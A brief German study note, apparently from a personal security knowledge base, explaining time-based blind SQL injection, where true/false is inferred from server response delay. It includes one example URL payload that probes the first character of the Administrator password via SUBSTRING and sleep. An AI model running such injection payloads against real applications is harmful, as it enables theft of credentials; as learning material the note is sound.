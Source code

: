 # Time-Based Blind SQLi
Ähnlich wie [[20-Boolean-Based]] nur das true/false über die Zeit der Antwort des Servers ermittelt wird.

```sql
www.random.com/app.php?id\=1 and SUBSTRING((SELECT Password FROM Users WHERE Username \= 'Administrator'), 1, 1) \= 'e', sleep 10 --
```

